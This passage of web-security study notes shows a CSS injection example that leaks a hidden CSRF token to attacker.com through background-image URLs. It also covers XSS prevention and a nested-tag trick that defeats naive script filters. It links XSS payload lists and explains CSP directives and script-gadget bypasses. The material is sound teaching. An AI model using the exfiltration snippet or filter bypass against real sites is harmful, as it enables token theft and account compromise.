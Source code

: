           input[name=csrf][value^=9] ~ * {
            background-image: url(http://attacker.com/?v=9); 
          }
        </STYLE>
        ...
        <FORM>
          ...
          <INPUT type=”hidden” name=”csrf” value=”s3cr3t”>
          ...
        </FORM>
      </HTML>
      ```
- Prevention
  - Any user input must be preprocessed before it is used inside the page: HTML special characters must be properly encoded before being inserted into the page
  - Don't do escaping manually
    - Use an escaping library
      - OWASP ESAPI (Enterprise Security API)
      - Microsoft’s AntiXSS
      - DOMPurify (client-side)
    - Rely on templating libraries which provide escaping features
      - Smarty and Mustache in PHP, Jinja in Python, ...
      - Use APIs, don't just insert code
  - Against DOM-based XSS use Trusted Types
  - Caveats with Filters
    - Suppose that a XSS filter removes the string `<script` from the input parameters
      - `<script src="..."`  becomes `src="..."`
      - `<scr<scriptipt src="..."` becomes `<script src="..."`
    - Need to loop and reapply until nothing found
- Payloads: https://github.com/payloadbox/xss-payload-list
- Cheatsheet: https://portswigger.net/web-security/cross-site-scripting/cheat-sheet

##### Content Security Policy (CSP)

- CSP is a policy designed to control which resources can be loaded by a web page
- The policy is communicated via the Content-Security-Policy header
- Directives
  - Fine-grained filtering of resources depending on their type
    - `font-src, frame-src, img-src, media-src, script-src, style-src, ...`
    - `default-src` is applied when a more specific directive is missing
  - A list of values can be specified for each directive
    - Hosts (with * as wildcard): `http://a.com, b.com, *.c.com, d.com:443, *`
    - Schemes: `http:, https:, data:`
    - `‘self’` whitelists the origin from which the page is fetched
    - `‘none’` whitelists no URL
  - Specific to scripts/stylesheets
    - `‘unsafe-inline’` whitelists all inline style directives/scripts (including event handlers, JavaScript URIs, ...)
    - `‘unsafe-eval’` allows the usage of dynamic code evaluation functions (e.g., `eval`)
    - `‘nonce-<value>’` whitelists the elements having the specified value in the nonce attribute
    - `‘sha256-<value>’, ‘sha384-<value>’, ‘sha512-<value>’` whitelist the elements having the specified hash value (which is encoded in base64)
    - `‘unsafe-hashes’` is used together with a hash directive value to whitelist inline event handlers
    - `‘strict-dynamic’` allows the execution of scripts dynamically created by other scripts
  - Some values are incompatible with others
    - When nonces are used, `‘unsafe-inline’` is ignored
    - When `‘strict-dynamic’` is used, whitelists and `‘unsafe-inline’` are ignored
- Bypassing CSP with Code Reuse Attacks
  - Many websites use very popular (and complex) JS frameworks
    - Examples include AngularJS, React, Vue.js, Aurelia, ...
    - These frameworks contain script gadgets, pieces of JavaScript that react to the presence of specifically formed DOM elements
  - We can abuse scripts gadgets to obtain code execution by injecting benign-looking HTML elements
